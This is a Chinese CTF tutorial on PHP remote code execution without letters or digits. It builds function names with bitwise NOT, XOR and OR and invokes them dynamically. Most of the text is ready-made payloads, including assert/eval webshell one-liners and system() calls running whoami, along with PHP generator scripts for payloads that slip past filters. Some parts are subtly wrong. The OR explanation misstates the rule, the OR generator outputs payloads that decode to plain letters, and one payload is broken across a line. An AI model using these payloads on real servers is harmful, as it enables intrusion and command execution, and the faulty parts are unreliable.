对于CTF web入门php eval代码执行题目常考察的无字母数字RCE，使用`取反`、`异或`、`或`运算，构造出任意字符绕过过滤，再利用PHP中`($a)($b)`的动态调用函数语法来实现了代码执行rce，该语法在PHP7中引入。[动态调用函数 - php7](https://www.php.net/manual/zh/migration70.incompatible.php)

assert()函数是PHP中一个允许执行任意PHP代码的函数。在PHP 7.2版本宣布弃用，在PHP 8.0版本中被移除，PHP 8.0之前的版本都能用来执行任意PHP代码。



为什么不用 eval 函数？eval是一个语言构造器，不是函数，不适用于`($a)($b)`的动态调用函数语法。`eval('')`里执行的字符串可以理解为这些内容存在于一个php文件中，通过 include 函数的文件包含到当前文件中执行的。




## 原理

核心原理：PHP 中，两个字符串做运算（如异或、取反）是逐字节进行的。通过非字母数字字符的运算组合，可以构造出任意字母数字字符串。

取反运算：PHP 里 `~` 对字符串操作时，逐字节按位取反。例如字符的每个二进制位从 0 变 1、从 1 变 0，再取反一次，得到原来的字符。

```plaintext
0x41 ('A')  → 二进制 01000001 → 取反 → 10111110 → 0xBE
~'system'  →  "\x9C\x89\x93\x94\x8B\x9A\x93"
~"\x9C\x89\x93\x94\x8B\x9A\x93"  →  "system"
```

因为取反得到的字符可能是不可见字符，这里使用url编码一次，方便观察和传参。



异或运算：PHP 里 `^` 对字符串操作时，逐字节按位异或。例如字符的每个二进制位进行异或运算，相同为 0，不同为 1，得到新的字符。

例如 A 和 1 的二进制异或运算得到字符 P 

```plaintext
A  → 01000001
^
1  → 00110001
=
P  → 01110000  (0x50)
```



或运算：PHP 里 `|` 对字符串操作时，逐字节按位或运算。例如字符的每个二进制位进行或运算，相同为 1，不同为 1，得到新的字符。

```plaintext
A (01000001 = 0x41)
|
1 (00110001 = 0x31)
=
q (01110001 = 0x71)
```



上面以常见的字母数字字符为例，说明了取反、异或、或运算的原理。在无字母数字RCE中，需要使用不可见字符通过运算构造出目标字符，从而绕过字母数字过滤。

再说说版本问题，手搓 payload 尽量规范一些，这样在不同版本的 PHP 中执行结果一致，避免出现一些奇怪的报错。

## 版本问题

PHP 7.x 与 PHP 8.x 的行为不一致分析。

在 PHP 7.x 中，使用取反得到的 无字母数字 payload `(~%8F%97%8F%96%91%99%90)();`执行`phpinfo()`，可以成功执行，出现一条关键警告信息。



警告信息中提到，使用了未定义的常量，PHP假设我们可能是希望使用字符串的值，替我们添加了引号，完成了取反操作，同时说明这在未来版本将会变成错误。

```plaintext
Warning: Use of undefined constant ������� - assumed '�������' (this will throw an Error in a future version of PHP) in D:\phpstudy_pro\WWW\a.php(4) : eval()'d code on line 1
```

切换到 PHP 8.x，执行同样的 payload，直接报错，无法执行。



错误信息中提示，使用了未定义的常量，PHP 8.x 不再假设我们希望使用字符串的值，而是直接报错。

```plaintext
Fatal error: Uncaught Error: Undefined constant "�������" in D:\phpstudy_pro\WWW\a.php(4) : eval()'d code:1 Stack trace: #0 D:\phpstudy_pro\WWW\a.php(4): eval() #1 {main} thrown in D:\phpstudy_pro\WWW\a.php(4) : eval()'d code on line 1
```

给关键部分url编码部分的payload添加引号，PHP 8.x 执行成功。



## Payload

题目测试环境

```php
<?php
highlight_file(__FILE__);
eval($_GET[1]);
```



这里直接提供一些测试payload，供测试使用，如果被过滤，可以使用下面脚本自定义生成payload，使用php7.x在线环境。

取反

```php
# PHP8 之前可用
# payload：assert("eval($_POST[1]);");
(~('%9E%8C%8C%9A%8D%8B'))(~('%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4'));
# POST
1=phpinfo();

# PHP8 之后可用
# payload：system($_POST[1]);
(~'%8C%86%8C%8B%9A%92')(${~'%A0%AF%B0%AC%AB'}[~'%CE']);
# POST
1=whoami
```

异或

```php
# PHP8 之前可用
# payload：assert("eval($_POST[1]);");
(('%bf'^'%de').('%bf'^'%cc').('%bf'^'%cc').('%bf'^'%da').('%bf'^'%cd').('%bf'^'%cb'))(('%bf'^'%da').('%bf'^'%c9').('%bf'^'%de').('%bf'^'%d3').('%df'^'%f7').('%df'^'%fb').('%bf'^'%e0').('%bf'^'%ef').('%bf'^'%f0').('%bf'^'%ec').('%bf'^'%eb').('%bf'^'%e4').('%df'^'%ee').('%bf'^'%e2').('%df'^'%f6').('%df'^'%e4'));
# POST
1=phpinfo();

# PHP8 之后可用

```

或

```php
# payload：assert("eval($_POST[1]);");
(('%61'|'%61').('%73'|'%73').('%73'|'%73').('%65'|'%65').('%72'|'%72').('%74'|'%74'))(('%65'|'%65').('%76'|'%76').('%61'|'%61').('%6c'|'%6c').('%28'|'%28').('%24'|'%24').('%5f'|'%5f').('%50'|'%50').('%4f'|'%4f').('%53'|'%53').('%54'|'%54').('%5b'|'%5b').('%31'|'%31').('%5d'|'%5d').('%29'|'%29'));
# POST
1=phpinfo();
```

## 取反

取反构造脚本

```php
<?php
# 测试用
$cmd = "phpinfo";
echo "(~'" . urlencode(~$cmd). "')();";
echo "\n";
# (~'%8F%97%8F%96%91%99%90')();

# PHP8 之前可用
# 构造
$func = "assert";
$params = 'eval($_POST[1]);';
# 取反
$func = "(~'" . urlencode(~$func) . "')";
$params = "(~'" . urlencode(~$params) . "');";
echo $func . $params;
echo "\n";

# PHP8之后可用
# 构造
$func1 = 'system';
$param1 = '_POST';
$one = urlencode(~'1');
# 取反
$func = "(~'" . urlencode(~$func1) . "')";
$params = "(\${~'" . urlencode(~$param1) . "'}[~'$one']);";
echo $func . $params;
```

生成payload

```php
# phpinfo();
(~'%8F%97%8F%96%91%99%90')();
# assert("eval($_POST[1]);");
(~'%9E%8C%8C%9A%8D%8B')(~'%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4');
# system(${"_POST"}["1"]);
(~'%8C%86%8C%8B%9A%92')(${~'%A0%AF%B0%AC%AB'}[~'%CE']);
```

验证PHP8前后payload可用性，下图分别为PHP8前、PHP8后payload验证结果。





## 异或

写一个脚本，通过不可见字符进行异或运算，构造出可见字符a-z0-9以及其他可见字符，把可见字符存储在数组里，方便后续调用，稍加处理，得到最终的异或构造任意rce脚本

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */
# 生成 XOR 对应的可见字符映射
function x0r() {
    $results = [];

    for ($x = 128; $x <= 255; $x++) {
        for ($y = $x; $y <= 255; $y++) {
        # 避免重复计算
            $result = $x ^ $y;
            if ($result >= 32 && $result <= 126) {
                $results[chr($result)] = "'%" . dechex($x) . "'^'%" . dechex($y) . "'";
            }
        }
    }

    return $results;
}

# 将字符替换为 XOR 表达式
function replaceCharWithXor($mapping, $char) {
    return isset($mapping[$char]) ? "(" . $mapping[$char] . ")." : $char;
}

# 拼接整个 payload
function buildPayload($input, $xorMapping) {
    $result = '';
    
    foreach (str_split($input) as $char) {
        $result .= replaceCharWithXor($xorMapping, $char);
    }

   
   # 移除最后一个多余的点
    return rtrim($result, '.');
}

# 生成 XOR 映射
$xorMapping = x0r();

# 构造RCE
$func = "assert";
$param = "system('whoami')";

# 生成最终的 payload
$encode_func = buildPayload($func, $xorMapping);
$encode_param = buildPayload($param, $xorMapping);

$payload = "($encode_func)($encode_param);";
echo "Payload: " . $payload . "\n";
```

生成payload

```php
# PHP8 之前可用
# payload：assert("eval($_POST[1]);");
(('%bf'^'%de').('%bf'^'%cc').('%bf'^'%cc').('%bf'^'%da').('%bf'^'%cd').('%bf'^'%cb'))(('%bf'^'%da').('%bf'^'%c9').('%bf'^'%de').('%bf'^'%d3').('%df'^'%f7').('%df'^'%fb').('%bf'^'%e0').('%bf'^'%ef').('%bf'^'%f0').('%bf'^'%ec').('%bf'^'%eb').('%bf'^'%e4').('%df'^'%ee').('%bf'^'%e2').('%df'^'%f6').('%df'^'%e4'));
# POST
1=phpinfo();

# PHP8 之后可用
# payload: system(${"_POST"}["1"]);
(('%bf'^'%cc').('%bf'^'%c6').('%bf'^'%cc').('%bf'^'%cb').('%bf'^'%da').('%bf'^'%d2'))(${('%bf'^'%e0').('%bf'^'%ef').('%bf'^'%f0').('%bf'^'%ec').('%bf'^'%eb')}[('%bf'^'%8e')]);
# POST
1=whoami
```

验证PHP8前后payload可用性，下图分别为PHP8前、PHP8后payload验证结果。





## 或

使用`或`运算操作，重构实现上面`异或`脚本的效果

```php
<?php
# 生成 OR 对应的可见字符映射
function or_generator() {
    $results = [];

    for ($x = 32; $x <= 126; $x++) {
        for ($y = 32; $y <= 126; $y++) {
            $result = $x | $y;
            if ($result >= 32 && $result <= 126) {
                $results[chr($result)] = "'%" . dechex($x) . "'|'%" . dechex($y) . "'";
            }
        }
    }

    return $results;
}

# 替换单个字符为 OR 表达式
function replaceCharWithOr($mapping, $char) {
    return isset($mapping[$char]) ? "(" . $mapping[$char] . ")." : $char;
}

# 拼接整个 payload
function buildPayload($input, $orMapping) {
    $result = '';
    
    foreach (str_split($input) as $char) {
        $result .= replaceCharWithOr($orMapping, $char);
    }

    # 移除最后一个多余的点
    return rtrim($result, '.');
}

# 生成 OR 映射
$orMapping = or_generator();

# 构造 RCE
$func = "assert";
$param = "phpinfo();";

# 生成最终的 payload
$encode_func = buildPayload($func, $orMapping);
$encode_param = buildPayload($param, $orMapping);

$payload = "($encode_func)($encode_param);";
echo "Payload: " . $payload . "\n";
```

生成payload

```php
# PHP8之前可用
# payload: assert("eval($_POST[1]);");
(('%61'|'%61').('%73'|'%73').('%73'|'%73').('%65'|'%65').('%72'|'%72').('%74'|'%74'))(('%65'|'%65').('%76'|'%76').('%61'|'%61').('%6c'|'%6c').('%28'|'%28').('%24'|'%24').('%5f'|'%5f').('%50'|'%50').('%4f'|'%4f').('%53'|'%53').('%54'|'%54').('%5b'|'%5b').('%31'|'%31').('%5d'|'%5d').('%29'|'%29'));
# POST
1=phpinfo();  

# PHP8之后可用
# payload: system('whoami');
(('%73'|'%73').('%79'|'%79').('%73'|'%73').('%74'|'%74').('%65'|'%65').('%6d'|'%6d'))(('%77'|'%77').('%68'|'%68').('%6f'|'%6f').('%61'|'%6
1').('%6d'|'%6d').('%69'|'%69'));
```





## 参考

- [无字母数字webshell之提高篇 - phithon ](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
- [动态调用函数 - php7](https://www.php.net/manual/zh/migration70.incompatible.php)